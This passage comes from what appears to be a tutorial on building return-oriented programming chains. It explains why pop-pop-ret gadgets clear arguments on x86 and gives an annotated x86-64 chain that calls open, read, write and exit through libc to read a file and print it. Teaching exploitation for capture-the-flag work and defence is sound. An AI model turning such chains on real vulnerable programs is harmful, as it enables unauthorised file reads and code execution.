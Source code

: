 `write()` is going to use `0x1` (`stdout`) for its first argument (`int fd`),
`initial` for its second argument (`const void *buf`), and `1024` for its third
argument (`size_t count`). If the `write()` function is successful, `eax` will
contain the number of bytes that was written to `stdout`. We `ret` into our
gadget and `pop` all of `write`'s arguments off the `stack`, then we `ret` into
our `exit()` call.

### Can you explain in greater detail why `pop %; pop %; ret`-esque gadgets are needed for building ROP chains on x86?

If we didn't use a `pop %; pop %; pop %; ret` gadget to clear our function
arguments off of the `stack`, the `stack` frame would look something like this:

```python
p32(open_sym)
p32(read_sym)
p32(filename_ptr)
p32(0x0)
p32(0x0)
```

**So what's the problem here?**

When `open()` finishes, we'll `ret` into our `read()` call. This isn't going
to work out well for us though because `read()`'s arguments don't make any
sense now. Our first argument for `read()` points to a `null` byte, which isn't
a `filename_ptr`.

It's necessary for us to use `pop %; pop %; pop %; ret` gadgets in order to
clear the previous function call's arguments from the stack. These gadgets
allow us to effectively chain multiple function calls. [[1]](#references)

## Creating a ROP chain on x86-64

Let's do the same `open()`, `read()`, `write()`, `exit()` `ROP` chain on
`x86-64`:

```python
p64(pop_rdi_ret)            # load filename_ptr into rdi
p64(filename_ptr)           # arg0: pointer to filename string
p64(pop_rsi_pop_r15_ret)    # load flags into rsi
p64(0x0)                    # arg1: O_RDONLY
p64(0xcafebabe)             # dummy bytes loaded into r15
p64(pop_rdx_ret)            # load mode into rdx
p64(0x0)                    # arg2: 0 for mode
p64(open_sym)               # address of open() function within libc
p64(pop_rdi_ret)            # load fd into rdi
p64(0x3)                    # arg0: assume fd of the target is 3
p64(pop_rsi_pop_r15_ret)    # load initial into rsi
p64(initial)                # arg1: initial data structure in libc (rw-)
p64(0xcafebabe)             # dummy bytes loaded into r15
p64(pop_rdx_ret)            # load num of bytes to read into rdx
p64(1024)                   # arg2: num of bytes to read from fd 3
p64(read_sym)               # address of read() function within libc
p64(pop_rdi_ret)            # load fd 1 (stdout) into rdi
p64(0x1)                    # arg0: fd 1(stdout)
p64(pop_rsi_pop_r15_ret)    # load initial into rsi
p64(initial)                # arg1: initial data structure with file content
p64(0xcafebabe)             # dummy bytes loaded into r15
p64(pop_rdx_ret)            # load num of bytes to write into rdx
p64(1024)                   # arg2: num of bytes to write to fd 1 (stdout)
p64(write_sym)              # address of write() function within libc
p64(exit_sym)               # address of exit() function within libc
```
